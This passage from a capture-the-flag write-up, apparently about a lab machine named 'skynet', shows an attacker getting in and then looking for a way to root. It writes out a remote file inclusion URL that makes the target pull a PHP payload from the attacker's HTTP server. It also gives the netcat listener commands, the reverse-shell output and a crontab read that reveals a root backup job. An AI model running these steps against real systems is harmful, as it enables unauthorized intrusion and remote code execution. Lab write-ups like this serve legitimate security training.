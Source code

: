 start a python server `python -m http.server 8000`

then start a listener: `nc -lvnp 444`

now we go to this page:

`<machine_ip>/<redacted>/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.20.116:8000/php.php`

And we have our reverse shell.

```bash
nc -lvnp 4444     

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.34.11] 42912
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:39:18 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1459): Inappropriate ioctl for device
bash: no job control in this shell
www-data@skynet:/$
```

From here we can go to miles home directory and find the user flag.

Now we want to get the root flag.

after searching for a while, the only thing that seems interessing is this:

```bash
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

There is a backup running all minutes, and it is using root privileges.
